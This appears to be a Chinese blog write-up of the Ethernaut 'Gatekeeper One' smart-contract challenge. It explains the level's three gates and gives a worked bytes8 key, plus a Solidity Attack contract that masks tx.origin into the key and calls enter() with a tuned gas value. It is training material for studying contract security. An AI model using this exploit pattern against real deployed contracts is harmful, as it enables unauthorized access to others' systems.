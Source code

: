 ```yaml
---
title: Ethernaut - Gatekeeper One
categories: [Ethernaut]
tags: [以太坊, 智能合约, Ethernaut]
date: 2024-12-23
---
```


通过守门人，注册为参赛者，才能通过这一关。

复习 Telephone 和 Token。

也就是tx和msg的属性，以及数据下溢。

额外还有一个 `gasleft()`函数，可以返回剩余gas数量。

<!--more-->

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), 
        			"GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), 
        			"GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), 
        			"GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

gateOne：转发请求即可；

gateTwo：要设置gasleft。可以设置调用合约的初始gas为8191。



gateThree：

- 条件1：

    这条条件要求 gateKey 转换成 uint64 后的低 32 位和低 16 位相等。也就是说 gateKey 的高 16~31 位必须是 0。

- 条件2：

    gateKey 的高 32 位必须是非零的。

- 条件3：

    tx.origin的低16位就是_gateKey的低16位。

所以我的就是：

```
0x0000000100007F7B
```



这关重点是gas，可以在下图位置看到每个指令消耗的gas，发现执行完GAS消耗了256个gas。

![image-20241223170822785](./14-Gatekeeper-One/image-20241223170822785.png)



```solidity
contract Attack {
    address target;

    constructor(address _target) {
        target = _target;
    }

    function hack(uint256 gas) external {    
        uint64 uintKey = uint64(uint160(address(msg.sender)));    
        bytes8 key = bytes8(uintKey) & 0xFFFFFFFF0000FFFF;    
        (bool sent,) = address(target).call{gas: gas}(abi.encodeWithSignature("enter(bytes8)", key));    
        require(sent, "Transaction failed");
    }
}
```

